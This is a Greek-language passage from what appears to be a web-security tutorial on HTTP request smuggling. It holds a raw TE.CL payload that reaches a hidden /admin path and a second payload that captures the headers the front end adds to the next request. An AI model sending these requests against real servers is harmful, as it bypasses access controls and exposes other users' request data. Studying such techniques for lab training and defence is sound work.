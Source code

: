 **Παράδειγμα TE.CL**
```
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 4
Transfer-Encoding: chunked
2b
GET /admin HTTP/1.1
Host: localhost
a=x
0

```
Αντίστροφα, στην επίθεση TE.CL, το αρχικό αίτημα `POST` χρησιμοποιεί `Transfer-Encoding: chunked`, και το ενσωματωμένο αίτημα που ακολουθεί επεξεργάζεται με βάση την κεφαλίδα `Content-Length`. Παρόμοια με την επίθεση CL.TE, το εμπρόσθιο προξενεί την παράβλεψη του κρυφού αιτήματος `GET /admin`, παρέχοντας κατά λάθος πρόσβαση στην περιορισμένη διαδρομή `/admin`.

### Αποκάλυψη αναδιατύπωσης αιτημάτων εμπρόσθιας πλευράς <a href="#revealing-front-end-request-rewriting" id="revealing-front-end-request-rewriting"></a>

Οι εφαρμογές χρησιμοποιούν συχνά έναν **εξυπηρετητή εμπρόσθιας πλευράς** για να τροποποιούν τα εισερχόμενα αιτήματα πριν τα περάσουν στον εξυπηρετητή πίσω από αυτόν. Μια τυπική τροποποίηση περιλαμβάνει την προσθήκη κεφαλίδων, όπως `X-Forwarded-For: <IP του πελάτη>`, για να μεταφέρει τη διεύθυνση IP του πελάτη στον εξυπηρετητή πίσω από αυτόν. Η κατανόηση αυτών των τροποποιήσεων μπορεί να είναι κρίσιμη, καθώς ενδέχεται να αποκαλύψει τρόπους για **παράκαμψη προστασιών** ή **αποκάλυψη κρυφών πληροφοριών ή σημείων πρόσβασης**.

Για να εξετάσετε πώς ένας διαμεσολαβητής αλλάζει ένα αίτημα, εντοπίστε ένα παράμετρο POST που ο εξυπηρετητής πίσω απαντά με αυτήν. Στη συνέχεια, δημιουργήστε ένα αίτημα, χρησιμοποιώντας αυτήν την παράμετρο τελευταία, παρόμοια με το παρακάτω:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Connection: keep-alive
Transfer-Encoding: chunked

0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

search=
```
Σε αυτή τη δομή, τα στοιχεία των συνεχόμενων αιτημάτων προστίθενται μετά το `search=`, το οποίο είναι η παράμετρος που αντανακλάται στην απόκριση. Αυτή η αντανάκλαση θα αποκαλύψει τις κεφαλίδες του επόμενου αιτήματος.
